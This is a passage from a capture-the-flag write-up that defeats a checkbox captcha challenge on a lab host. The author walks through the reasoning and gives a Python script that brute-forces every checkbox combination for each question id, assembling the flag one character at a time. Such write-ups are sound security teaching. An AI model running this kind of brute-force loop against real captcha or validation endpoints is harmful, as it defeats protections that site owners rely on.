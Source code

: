 After seeing this strange output, I tried the last combination manually in the web page and got the same result; which confirmed the output was definitely correct.

As there were a number of dashes, I presumed that maybe multiple captchas need to be solved. The argument passed to my script was the value that was being passed to the `qid` parameter originally.

So, I refreshed the page to get a new valid `qid` and tried again, which led to a different character being revealed. I tried this a third time, with a `qid` that was one step below the original, and confirmed that I could just step through them sequentially and retrieve all the characters:

```
---------------------2------------------------------- 392
------------------------------S---------------------- 613
--------------------W-------------------------------- 391
```

As there were 53 characters in total, I modified my script to repeat the process I'd previously used to step through the range of 0-52 and use this as the `qid` and build up the full flag.

The final script was:

```python
import itertools
import requests
import re

flag = ''
regex = re.compile('Here is your flag: [-]{0,}?([^-]){1}')
for i in range(0, 53):
    print 'Fetching character {offset} / 52...'.format(offset = i)
    for c in itertools.product(['on', 'off'], repeat=6):
        p = {}

        p['qid'] = i

        if c[0] == 'on':
            p['cb0'] = 'on'

        if c[1] == 'on':
            p['cb1'] = 'on'

        if c[2] == 'on':
            p['cb2'] = 'on'

        if c[3] == 'on':
            p['cb3'] = 'on'

        if c[4] == 'on':
            p['cb4'] = 'on'

        if c[5] == 'on':
            p['cb5'] = 'on'

        r = requests.get("http://10.0.2.15/captcha/validate", params= p, allow_redirects=False)

        if "Incorrect" not in r.text:
            m = regex.search(r.text)
            flag += m.group(1)
            break

print 'Flag: {flag}'.format(flag = flag)
```
